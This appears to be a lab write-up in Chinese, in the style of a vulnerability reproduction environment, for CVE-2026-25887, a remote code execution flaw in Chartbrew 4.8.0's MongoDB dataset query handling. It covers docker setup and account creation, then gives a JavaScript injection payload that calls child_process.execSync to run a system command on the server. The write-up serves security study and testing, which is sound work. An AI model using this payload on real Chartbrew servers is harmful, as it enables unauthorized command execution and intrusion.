

# Chartbrew MongoDB数据集查询远程代码执行漏洞（CVE-2026-25887）

[Chartbrew](https://github.com/chartbrew/chartbrew)是一个开源的报表平台，可以连接数据库和API来构建和分享实时数据仪表盘。

在Chartbrew 4.8.0版本中，`ConnectionController.js`的`runMongo`函数将用户提交的MongoDB数据集查询直接传入JavaScript的`Function()`构造器，未做任何校验或过滤。拥有创建数据集权限的已认证用户可以通过MongoDB查询输入注入任意JavaScript代码，在Node.js进程上下文中实现远程代码执行。该漏洞在4.8.1版本中通过引入基于AST的查询校验修复。

参考链接：

- <https://github.com/chartbrew/chartbrew/security/advisories/GHSA-x4r6-prmw-7wvw>
- <https://nvd.nist.gov/vuln/detail/CVE-2026-25887>

## 环境搭建

执行如下命令启动Chartbrew 4.8.0：

```
docker compose up -d
```

服务启动后，访问`http://your-ip:4018`即可看到Chartbrew的Web界面，API服务地址为`http://your-ip:4019`。

如果你在远程服务器或虚拟机上运行该环境，需要通过`CB_HOST`环境变量指定服务器IP地址，使前端能正确访问API：

```
CB_HOST=your-ip docker compose up -d
```

## 漏洞复现

首先，打开Chartbrew的Web界面并注册一个新账号，第一个注册的用户将成为管理员。登录后，按照引导创建一个新项目。在"Step 2: Connect to your data source"中，选择MongoDB并输入连接字符串`mongodb://mongodb:27017/vulhub`，连接到本环境中的MongoDB服务。


保存连接后，进入"Datasets"页面，使用该MongoDB连接创建一个新的数据集。在查询编辑器中，输入以下恶意查询，利用`child_process.execSync`执行任意系统命令：

```
version + (function(){ try { const r = global.process.mainModule.require('child_process'); return r.execSync('id').toString(); } catch(e) { return e.toString(); } })()
```

点击"Run query"后，右侧结果面板将显示`id`命令的输出，证明可以在服务器上以root身份执行任意命令。


